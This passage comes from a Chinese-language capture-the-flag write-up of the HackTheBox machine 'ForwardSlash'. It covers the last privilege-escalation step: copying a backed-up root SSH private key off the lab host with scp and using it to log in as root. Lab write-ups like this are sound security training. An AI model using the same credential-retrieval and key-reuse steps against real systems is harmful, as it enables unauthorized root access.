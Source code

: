 www.cyberciti.biz](https://www.cyberciti.biz/security/howto-linux-hard-disk-encryption-with-luks-cryptsetup-command/) 

我前面描述的工作流的屏幕截图:

![](img/a65ccace4a957bcc8c23cebb6788bebe.png)![](img/940da5a6c078460089a58f5ed1299ca8.png)![](img/015f65740bea11fc201ce30241c144c0.png)![](img/5ba7274f5c5c95d6a6430491e4ade81b.png)

毕竟，我们本质上追求的不是利用正在运行的应用程序，或者劫持用户能够通过 sudo 运行的二进制文件/命令，而是检索根私钥的备份。然后可以使用这个私钥通过 ssh 登录，如下所示。

```
$ scp pain@forwardslash.htb:/tmp/.mok/mnt/id_rsa .
```

![](img/eaebe216813030a1705549a3f8406fb4.png)

我首先把私钥偷偷放进了我的机器

```
$ chmod 600 id_rsa
$ ssh -i id_rsa root@forwardslash.htb
```

![](img/6eff964682fc6e2edde09082fef88d7d.png)
